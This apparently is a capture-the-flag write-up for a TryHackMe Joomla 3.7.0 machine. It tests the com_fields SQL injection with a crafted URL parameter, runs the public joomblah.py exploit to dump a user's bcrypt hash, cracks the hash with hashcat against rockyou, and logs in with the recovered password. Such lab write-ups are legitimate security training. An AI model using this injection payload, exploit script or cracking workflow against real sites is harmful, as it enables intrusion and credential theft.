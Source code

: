 ## Joomla! 3.7.0 - 'com_fields' SQL Injection 

* check if it's vulnerable
* `http://10.10.22.191/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%27`
![bba8759216fb2a56b3957fe6280e9ab8.png](../../../_resources/bba8759216fb2a56b3957fe6280e9ab8.png)

```
500 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '\'' at line 9 
```

* looks like this is vulnerable, let's try a  `joomblah.py` script we found https://github.com/XiphosResearch/exploits/blob/master/Joomblah/joomblah.py 

## Joomblah.py
 ```
[-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
```

* `hashcat -m 3200 hashes.txt /usr/share/wordlists/rockyou.txt`
```
$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm:spiderman123

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p...BtZutm
Time.Started.....: Wed Apr 20 13:38:25 2022 (36 secs)
Time.Estimated...: Wed Apr 20 13:39:01 2022 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     1274 H/s (9.32ms) @ Accel:32 Loops:16 Thr:24 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 46848/14344384 (0.33%)
Rejected.........: 0/46848 (0.00%)
Restore.Point....: 46080/14344384 (0.32%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:1008-1024
Candidate.Engine.: Device Generator
Candidates.#1....: jakob1 -> smile4ever
Hardware.Mon.#1..: Temp: 51c Fan: 58% Util: 99% Core:1920MHz Mem:6794MHz Bus:16
```

* we can log into joomla using `jonah:spiderman123`